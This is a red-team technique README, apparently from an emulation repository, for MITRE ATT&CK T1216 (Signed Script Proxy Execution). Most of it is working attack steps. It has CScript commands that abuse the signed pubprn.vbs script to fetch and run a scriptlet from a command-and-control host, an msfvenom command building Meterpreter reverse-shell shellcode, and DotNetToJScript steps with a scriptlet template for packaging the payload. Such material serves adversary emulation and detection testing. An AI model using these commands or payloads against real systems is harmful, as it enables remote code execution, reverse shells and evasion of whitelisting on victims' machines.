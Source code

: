 # Signed Script Proxy Execution

---
* **ID**: T1216
* **Source**: <https://attack.mitre.org/techniques/T1216/>
---

# Details

## pubprn.vbs
### Execute remote payload in JavaScript
* OS: Windows 7 / Windows 2008 R2 (Version 6.1), Windows 8.1 / Windows 2012 R2 (Version 6.3), Windows 10 / Windows 2016 (Version 1607)
* Methods:
  * Option 1:
  ```
   C:\Windows\SysWOW64\CScript.exe /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```
  * Option 2:
  ```
  C:\Windows\SysWOW64\CScript.exe /b C:\Windows\SysWOW64\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://<ip_of_C2>/payload.sct
  ```

### Create payload (.sct) in JavaScript for Meterpreter

* Compile CSharp source code [`shellcode.cs`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs) to DLL:
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -unsafe -platform:x86 -target:library shellcode.cs
```
*	Generate a x86 shellcode in base64 format, e.g. meterpreter:
```
msfvenom -p windows/meterpreter/reverse_tcp --smallest -a x86 --platform win LHOST=<ip_of_C2> LPORT=<port_of_C2> -f raw | base64
```
*	Replace parameter code in [`cmd.txt`](https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt)  with the shellcode in base64 format
*	Leverage [DotNetToJScript](https://github.com/tyranid/DotNetToJScript)  to convert DLL `shellcode.dll` into JS file `payload.js`:
```
C:\Users\win7x64\Desktop\release_v1.0.4\DotNetToJScript.exe -c ShellCodeLauncher.Program -v v4 -s C:\Tools\cmd.txt -o c:\Tools\payload.js c:\Tools\shellcode.dll
```
*	Copy the content of JS file `payload.js` and insert into the code below:
```
<?XML version="1.0"?>
<scriptlet>
<registration
    description="PoC"
    progid="PoC"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
	>
</registration>
	<script language="JScript">
		<![CDATA[
	     // Insert the content of JS file "payload.js" here
         <content_of_payload_js>
		]]>
</script>
</scriptlet>
```
* Save the aforementioned code as a file (e.g. `payload.sct`)

# References

* <https://enigma0x3.net/2017/08/03/wsh-injection-a-case-study/>
* <https://evi1cg.me/archives/remote_exec.html>
* <https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct>
* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1216/T1216.md>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/shellcode.cs>
* <https://github.com/brianwrf/RTEmulation/blob/master/Techniques/T1216/cmd.txt>
* <https://github.com/tyranid/DotNetToJScript>
